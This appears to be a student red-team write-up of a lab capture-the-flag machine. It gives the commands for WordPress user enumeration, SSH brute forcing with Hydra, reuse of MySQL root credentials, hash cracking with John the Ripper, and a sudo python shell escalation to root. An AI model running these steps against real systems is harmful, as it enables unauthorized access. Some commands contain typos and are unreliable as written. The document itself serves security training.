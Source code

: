 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap ... # TODO: Add command to Scan Target 1
  # TODO: Insert scan output
```

This scan identifies the services below as potential points of entry:
- Target 1
  - SSH (port 22)
  - HTTP (port 80)
  - Rpcbind (port 111)
  - Netbios-ssn (ports 139 and 445)

The following vulnerabilities were identified on each target:
- Target 1
  - User Enumeration (Wordpress Website)
  - Weak password/usernames (CWE-521)
  - Brute Force SSH to gain access to system
  - Unsalted password hash and privilege escalation with Python (CWE-328)

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: {b9bbcb33e11b80be759c4e844862482d
    - **Exploit Used**
      - - WPScan to enumerate users on the Target1 Wordpress website. - $ wpscan --url 192.168.1.110/wordpress - $ wpscan --url 192.168.1.110 --enumerate -u
  
  - It was known the user's password was weak and obvious. It was guessed before any commands were used but for practice, we used Hydra to crack Michael's password.
  - Command: hydra -l michael -p /usr/sahre/wordlists/rockyou.txt -vV 192.16.1.110 -t 4 ssh

  - flag1 was found in /var/www/html folder after searching through each file in the directory. The flag1 was found in the service.html in an HTML comment near the bottom of the HTML file.

  - `flag2.txt`: {fc3fd58dcdad9ab23faca6e9a36e581c}
    - **Exploit Used**
      - Manaully brute forced Michael's password, and also used Hydra for good measure. His password (password: michael) was weak and easily guessable. This allowed us to SSH into his machine and find flag2. The steps to find the second flag were similar to when we found flag1.
      - flag2 was discovered in /var/www next to a directory named "html"
        - Commands:
          - ssh michael@192.168.1.110
          - password: michael
          - cd /var/www
          - ls -l
          - cat flag2.txt

  - `flag3.txt`: {afc01ab56b50591e7dccf93122770cd2}
    - **Exploit Used**
      - Same exploits as flag1 and flag2.
      - Once in Michael's system, we captured flag3.txt by accessing the MYSQL database
      - After searching through wp-config.php, we had access to his MYSQL database login credentials and were able to further explore the database.

      - Commands:
        - mysql -u root -p
        - We were then prompted for a password, which is 'R@v3nSecurity'
        - show databases;
        - use wordpress;
        - select * from wp_posts


  - `flag4.txt`: {715dea6c055b9fe3337544932f2941ce}
    - **Exploit Used**
      - Unsalted hash and privilege escalation with Python command.
      - For flag4, we cracked user Steven's password using John the Ripper, and looked at Stevens privileges using "sudo -l" ti find how we can escalte our privilege to root.
      - After getting access to the MYSQL database, we found the user's password hashes in the wp_users table. The password hashes were saved on the Kali machine in "wp_hashes.txt" for later use.
      - Commands:
      - mysql -u root -p
      - password: R@v3nSecurity
      - show databases
      - use wordpress;
      - show tables;
      - select * from wp_users;

    - The wp_hashes.txt file containing Steven's password hashes was cracked using John the Ripper. 
    - Command:
      - john wp_hashes.txt

    - After getting Stevens password, we could now SSH into the server as Steven.
       - Commands: 
         - ssh steven@192.168.1.110
         - password: pink84
         - sudo -l
         - Sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
    - This Python command allowed us to be the "root@target1" user (Steven).
       - ls
       - cat flag4.txt


